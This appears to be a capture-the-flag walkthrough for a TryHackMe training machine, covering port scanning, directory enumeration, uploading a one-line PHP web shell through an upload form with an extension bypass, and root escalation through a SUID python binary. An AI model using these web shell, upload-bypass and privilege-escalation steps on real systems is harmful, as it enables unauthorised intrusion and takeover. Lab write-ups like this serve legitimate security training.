

# Detailed Setup and Execution Guide



Welcome to our project! This README is designed to guide you through the entire process of setting up and executing the project, from deployment to privilege escalation. We aim to provide clear, step-by-step instructions that are easy to follow. Let's dive into the details.

## Table of Contents

1. [Deploy The Machine](#deploy-the-machine)
2. [Reconnaissance](#reconnaissance)
3. [Getting A Shell](#getting-a-shell)
4. [Privilege Escalation](#privilege-escalation)

### Deploy The Machine

#### Step 1: Connect to TryHackMe Network

Before deploying the machine, ensure you are connected to the TryHackMe network. If you are unfamiliar with this process, we recommend completing the OpenVPN room on TryHackMe to understand how to establish this connection properly.

### Reconnaissance

#### Step 2: Gather Information About the Target

To begin, we need to collect some crucial information about our target machine.

1. **Scan the Machine**: Use the following `nmap` command to scan the machine. This command helps identify open ports and the services running on them.
   
   ```bash
   nmap -sC -sV -Pn <IP>
   ```
   
   Replace `<IP>` with the target machine's IP address. The expected outcome is to find that 2 ports are open.

2. **Identify Apache Version**: Through the scan, you should be able to determine that Apache version 2.4.29 is running on the target machine.

3. **Discover Services**: The service running on port 22 is SSH (Secure Shell).

4. **Directory Enumeration**: Use the GoBuster tool to find directories on the web server. This step does not require an explicit answer but involves running GoBuster with the following command:

   ```bash
   gobuster dir -u <IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,php,html,css,txt -o output
   ```

   The hidden directory you should discover is `/panel/`.

### Getting A Shell

#### Step 3: Upload and Execute a Reverse Shell

The goal here is to find a form to upload a reverse shell script and subsequently find a flag.

1. **Upload Reverse Shell**: Find a form on the website where you can upload files. Use the following PHP script named `web.php` (you may need to adjust the file extension as needed):

   ```php
   <?php system($_GET['cmd']); ?>
   ```

2. **Modify and Upload File**: Using Burp Suite as a proxy, intercept the file upload request and add `.php5` to the end of the filename before forwarding it.

3. **Execute Command**: Access the uploaded file via a browser and execute a command to find `user.txt`. The URL should look something like this:

   ```plaintext
   http://<IP>/uploads/web.py.php5?cmd=find%20/%20-type%20f%20-name%20user.txt
   ```

Replace `<IP>` with the target's IP address.

### Privilege Escalation

#### Step 4: Escalate Privileges to Root

After gaining a shell, the next step is to escalate privileges to root.

1. **Find SUID Files**: Look for files with SUID permission that appear unusual using the following command:

   ```bash
   find / -user root -perm /4000
   ```

   You might find that `/usr/bin/python` has SUID permissions, which is unusual.

2. **Privilege Escalation**: Leverage GTFOBins to find a method to escalate your privileges. Execute the following command to gain root access:

   ```bash
   /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
   ```

Now, you should have escalated your privileges to root and be able to access `root.txt`.
